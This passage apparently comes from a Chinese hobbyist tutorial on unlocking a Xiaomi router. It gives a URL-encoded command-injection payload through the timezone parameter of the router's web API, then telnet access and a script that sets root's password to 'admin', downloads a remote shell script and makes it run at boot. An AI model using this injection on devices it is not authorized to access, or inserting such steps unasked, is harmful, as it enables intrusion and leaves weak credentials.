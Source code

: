 

### 浏览器请求重启

注入代码： ` ' ; reboot ; `

在浏览器的 url 栏中输入经过 url encode 的 url，注意替换 `${YOUR_STOK}`：

```http
http://192.168.31.1/cgi-bin/luci/;stok=${YOUR_STOK}/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
```



重启中路由器蓝灯常亮，重新常亮白灯时代表重启完成，此时直接 telnet 连接路由器：

```bash
telnet 192.168.31.1
```

连接遇到问题可以尝试关闭 PC 的防火墙；正常连接如下：

![image-20231107200926613](https://s3.xiabee.cn/pic/2023/11/d91307febb7a6f534483baf50aeabfbf836aa59d7393a3f565d32e0c2a8343a3.png)





### **永久开启并固化 ssh**

参考[酱紫表](https://qust.me/post/ax6000-shellclash/)的方法，我们在 telnet 成功后固化 ssh，主要通过 `https://fastly.jsdelivr.net/gh/lemoeo/AX6S@main/auto_ssh.sh` 脚本实现：



```
echo -e 'admin\nadmin' | passwd root
# 将 root 密码设置为 admin
nvram set ssh_en=1
nvram set telnet_en=1
nvram set uart_en=1
nvram set boot_wait=on
nvram commit
sed -i 's/channel=.*/channel="debug"/g' /etc/init.d/dropbear
/etc/init.d/dropbear restart
mkdir /data/auto_ssh
cd /data/auto_ssh
curl -O https://fastly.jsdelivr.net/gh/lemoeo/AX6S@main/auto_ssh.sh
# 下载相关脚本
chmod +x auto_ssh.sh
uci set firewall.auto_ssh=include
uci set firewall.auto_ssh.type='script'
uci set firewall.auto_ssh.path='/data/auto_ssh/auto_ssh.sh'
uci set firewall.auto_ssh.enabled='1'
uci commit firewall
uci set system.@system[0].timezone='CST-8'
uci set system.@system[0].webtimezone='CST-8'
uci set system.@system[0].timezoneindex='2.84'
uci commit
mtd erase crash
reboot
```
